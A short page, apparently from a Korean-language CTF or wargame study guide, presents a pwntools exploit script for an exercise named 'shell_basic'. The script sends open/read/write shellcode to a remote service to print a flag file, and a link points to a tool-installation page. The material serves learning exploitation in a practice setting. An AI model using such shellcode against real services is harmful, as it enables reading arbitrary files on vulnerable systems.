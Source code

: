 ```python
#!/usr/bin/python3
#Name: S4_06_shell_basic.py

from pwn import *

r = remote('<host>', <port>) # 'example.com', 7777
context.arch = 'amd64' # 64-bit
p = '/home/shell_basic/flag_name_is_loooooong'

shellcode = ''
shellcode += shellcraft.open(p)
shellcode += shellcraft.read('rax', 'rsp', 0x30)
shellcode += shellcraft.write(1, 'rsp', 0x30)

r.recvuntil("shellcode: ")
r.sendline(asm(shellcode))

r.interactive()
```

- pwntools 사용시
    - [참고](./SHF03_STAGE_3_Tool_Installation.md#tool-pwntools)
